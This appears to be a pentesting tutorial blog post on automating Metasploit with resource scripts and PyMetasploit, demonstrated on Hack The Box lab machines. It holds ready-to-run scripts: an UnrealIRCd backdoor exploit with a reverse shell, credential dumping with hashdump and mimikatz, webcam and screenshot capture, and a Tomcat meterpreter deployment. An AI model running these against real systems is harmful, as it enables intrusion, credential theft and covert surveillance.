






## CPH:SEC - Using Metasploit Framework the Right Way - With Scripts
##### v. 0.1 a

_Disclaimer & Caveat Lector: This article is for educational purposes only. The author is not responsible for any misuse or wrong doing. Always follow the law, whitehat hacking ethics, good business practice and industry standards._

+ Written by Shiva @ CPH:SEC : https://cph-sec.github.io/
+ Quality Control: MThirup @ Hackerone: https://hackerone.com/mthirup/


### **Table of Contents**

1. #### [Introduction](#Introduction)
2. #### [How To Record a MSF Script](#Record)
3. #### [How To Use/Resource a MSF Script](#Use)
4. #### [Writing MSF Scripts](#Writing)
5. #### [MSF Script Examples](#Examples)
    + 1. #### [Auto Listener](#AutoListen)
    + 2. #### [Auto SMB Enum](#AutoSMB)
6. #### [Going Deeper by Using Python](#Python)
7. #### [Conclusion](#Conclusion)
8. #### [Surf](#Surf)

---

### <a id="Introduction"></a>Introduction

This article assumes that the reader has some knowledge of Metasploit Framework (MSF) and those who are unfamiliar with the general workings should consult "Metasploit Unleashed", the MSFU¹, a free ethical hacking course. Also known as the MSF manual. As MSF use can get trivial, it is useful, to know how to automatize usage both for convenience and speed. In this article we will learn how to use MSF with scripts with the built in interpreter and some hints on how to use MSF with python.


### <a id="Record"></a>How To Record an MSF Script

The simplest way to make an MSF script is to record one with the "makerc" command. Simply use MSF as you normally would and then "record" / dump commands into a file. This is similar to record macro in e.g. Miscrosoft Excel.

```
msf exploit> makerc savefile.rc
```




Notice "Saving last 27 commands..." i.e. makerc simply adds every command to a file.
After some editing this is how the file looks like:

```
use exploit/unix/irc/unreal_ircd_3281_backdoor
show options
setg lhost 10.10.14.105
setg rport 6697
set payload cmd/unix/reverse
setg rhost 10.10.10.117
exploit -j
set lport 4447
exploit -j
```

As one can see, it's nothing more than the commands typed, line by line. 
Next chapter explains how to use/resource a script.

### <a id="Use"></a>How To Use/Resource an MSF Script

When using the recorded script later one can manually edit e.g. the lhost and then run by using the resource command:

```
msf> resource irchack.rc
```

And MSF will perform exactly like one had typed the commands manually, one by one.



Now it is easy to use exploit unreal_ircd_3281_backdoor when needed.

### <a id="Writing"></a>Writing MSF Scripts

As the reader probably reckoned writing a MSF resource script is quite straightforward as its simply a list of msfconsole commands in a textfile. 
A neat script that comes in handy is a meterpreter automation script for Windows hacking. Especially for CTFs like "Hack The Box"².
```
run post/windows/manage/priv_migrate
hashdump
run post/windows/gather/lsa_secrets
run post/windows/gather/cachedump
load incognito
list_tokens -u
screenshot
webcam_list
webcan_snap -v false
load mimikatz
kerberos
background
```

Save the above list of commands in a file named e.g. met_cmd_file.rc. Below the script is executed on a Windows 7 machine that was exploited with EternalBlue (MS17-010), the "Blue" machine from HTB. Script must be run from meterpreter session with "resource met_cmd_file.rc".




A very convenient post exploitation script indeed.


### <a id="Examples"></a>MSF Script Examples

In this section examples of useful scripts are listed and explained.


#### <a id="AutoListen"></a>Auto Listener

Doing CTFs, or pen-tests with metasploit, one often uses listeners for reverse shells such as the one used earlier with MS17-010. Shown below is the simple code for an auto listener script.

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.10.10
set lport 4446
exploit -j -z
jobs
```

Naturally, one will have to change "lhost" and payload according to the assignment. Execution is shown below.



Fast and effective.


#### <a id="#AutoSMB"></a>Auto SMB Enum

SMB is a common attack vector and can be enumerated³ with MSF using the below script.

```
setg rhosts 10.10.10.8, 10.10.10.40
setg threads 16
use auxiliary/scanner/smb/smb_lookupsid
run
use auxiliary/scanner/smb/pipe_auditor
run
use auxiliary/scanner/smb/pipe_dcerpc_auditor
run
use auxiliary/scanner/smb/smb2
run
use auxiliary/scanner/smb/smb_enumshares
run
use auxiliary/scanner/smb/smb_lookupsid
run
use auxiliary/scanner/smb/smb_version
run
```

In the example below the auto SMB enum script is run against HTB machines "Optimum" and "Blue".



Useful for most engagements.


### <a id="#Python"></a>Going Deeper by Using Python

What if MSF could be combined with the hacker's favorite programming language Python? Much could be achieved indeed. Luckily such a framework exists, namely PyMetasploit⁴ which is somewhat newer than the Spiderlabs msfrpc⁵ equivalent. For installation of either refer to the respective Github repos⁴/⁵. PyMetasploit describes itself as:

> _PyMetasploit is a full-fledged msfrpc library for Python. It is meant to interact with the msfrpcd daemon that comes with the latest versions of Metasploit. It does NOT interact with the console-based scripts that Metasploit provides such as msfconsole, msfvenom, etc. Therefore, before you can begin to use this library, you'll need to initialize msfrpcd and optionally (highly recommended) PostgreSQL._

So informed let's learn from the following example⁶, which should be saved as 'exploit_tomcat_manager.py' in PyMetasploit folder:

```
import metasploit.msfrpc
from metasploit.msfconsole import MsfRpcConsole

client = metasploit.msfrpc.MsfRpcClient('', user='msf')

exploits = client.modules.exploits
for exploit in exploits:
    print("\t%s" % exploit)

console = MsfRpcConsole(client)
console.execute('use exploit/multi/http/tomcat_mgr_deploy')
console.execute('set RHOST 192.168.100.2')
console.execute('set RPORT 8180')
console.execute('set PATH /manager')
console.execute('set HttpUsername tomcat')
console.execute('set HttpPassword tomcat')
console.execute('set payload java/meterpreter/bind_tcp')
console.execute('run')
```

Before running the script start an msfrpc instance from command prompt:
```
$> msfrpcd -P '' -U msf
```


Obviously the two "from/import" lines import the msfrpc modules in usual Python fashion and enables us to work with Msfrpc. The code:

```
exploits = client.modules.exploits
```

Will list exploit modules, other possibilities are:

```
client.modules.auxiliary
client.modules.encoders
client.modules.payloads
client.modules.post
```

After the console object is initiated one can activate an exploit with the use method:

```
console.execute('use exploit/multi/http/tomcat_mgr_deploy')
```

Which is comparable to commands used for msfconsole, same goes the scripts following "console.execute" commands.




The above screenshot shows the executing of the script.


### <a id="Conclusion"></a>Conclusion

In this guide we learned how to improve the use of MSF both by using the built in scripting engine as well as interacting with msfrpc using Python. The reader can go deeper into this subjects by visiting the links in the Surf section.


### <a id="Surf"></a>Surf

#### References / Links / Surf

+ ¹Metasploit Unleashed: https://www.offensive-security.com/metasploit-unleashed/
+ ²Scripting Metasploit to exploit a group of hosts. A how-to: https://www.pentestpartners.com/security-blog/scripting-metasploit-to-exploit-a-group-of-hosts-a-how-to/
+ ³SMB Enum: https://github.com/Shiva108/CTF-notes/blob/master/Notes%20VA/smb_enum.md
+ ⁴Pymetasploit repo on Github: https://github.com/allfro/pymetasploit
+ ⁵Msfrpc Spiderlabs Github repo: https://github.com/SpiderLabs/msfrpc
+ ⁶Mastering Python for Networking and Security: https://www.packtpub.com/mapt/book/networking_and_servers/9781788992510/9/ch09lvl1sec82/connecting-metasploit-with-pymetasploit
